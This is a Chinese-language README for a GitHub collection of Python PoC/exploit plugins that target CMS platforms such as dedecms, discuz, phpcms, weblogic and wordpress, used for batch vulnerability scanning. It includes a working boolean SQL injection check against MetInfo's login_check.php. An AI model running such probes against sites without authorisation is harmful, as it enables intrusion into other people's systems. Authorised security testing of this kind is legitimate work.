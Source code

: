 # cms_poc_exp
![](https://img.shields.io/badge/program-Python3-blue.svg)
___

## 此项目的目的与意义
> 个人精力有限,故公开此项目让感兴趣的人一起搜集插件为自己/作者扫描器提供强力的驱动
> 如果感兴趣为本项目提供支持,可以联系本人QQ2563152103


+ 项目说明
  - [x]本项目插件现已支持Python3 不再兼容Python2,故若要使用 [ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)
  进行批量扫描,请自行修改插件支持Python2
  - [x][ShellFrameworkd](https://github.com/1oid/Shell-Frameworkd)批量扫描将会再之后修改为支持Python3
  - `ShellFrameworkd`已更名为[PocBatch-M](https://github.com/1oid/PocBatch-M)并支持了Python3

+ 现有的cms插件
  - [dedecms](https://github.com/1oid/cms_poc_exp/tree/master/dedecms)
  - [discuz](https://github.com/1oid/cms_poc_exp/tree/master/discuz)
  - [emobile](https://github.com/1oid/cms_poc_exp/tree/master/emobile)
  - [finecms](https://github.com/1oid/cms_poc_exp/tree/master/finecms)
  - [jcms](https://github.com/1oid/cms_poc_exp/tree/master/jcms)
  - [maccms](https://github.com/1oid/cms_poc_exp/tree/master/maccms)
  - [metinfo](https://github.com/1oid/cms_poc_exp/tree/master/metinfo)
  - [phpcms](https://github.com/1oid/cms_poc_exp/tree/master/phpcms)
  - [tomcat](https://github.com/1oid/cms_poc_exp/tree/master/tomcat)
  - [weblogic](https://github.com/1oid/cms_poc_exp/tree/master/weblogic)
  - [wordpress](https://github.com/1oid/cms_poc_exp/tree/master/wordpress)
  - [网站扫描插件_其他通用漏洞](https://github.com/1oid/cms_poc_exp/tree/master/www)
  - [yonyouoa](https://github.com/1oid/cms_poc_exp/tree/master/yongyouoa)
  - [zfsoft](https://github.com/1oid/cms_poc_exp/tree/master/zfsoft)

+ 插件编写格式,
```python
class Exploit:

  def attack(self, url):
    # 这里写验证漏洞的一些代码
    return "返回(提示)字符串"
```
调用 `Exploit().attack(url)`

以`metinfo_login_lang_sql`插件为例
```python
import requests
from urllib.parse import quote

class Exploit:

    def attack(self, url):
        true_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='1")
        false_url = url + "/admin/login/login_check.php?langset=cn" + quote("' and '1' ='2")

        response = requests.get(true_url)
        response2 = requests.get(false_url)

        if 'not have this language' in response2.text and 'not have this language' not in response.text:
            return "{} has SQL Injection!".format(true_url)
```

## 插件编写注意事项
+ 拒绝重复插件, 新增了一个`find.py`, 通过特征来搜索已存在的脚本是否含有指定特征
使用方法: 
  - 方法一: `python3 find.py cms名称 特征` 例如 `python3 find.py dedecms /install/index.php`
  - 方法二: `python3 find.py 特征` 例如 `python3 find.py /install/index.php` (如果不指定cms, 则会查找本地所有的插件)

## 本项目目前支持/贡献的人
- [1oid(作者)](https://github.com/1oid)
- [ske](https://github.com/SkewwG/)提供自己编写的插件[VulScan](https://github.com/SkewwG/VulScan)
- [LiodAir](https://github.com/LiodAir)提交分支
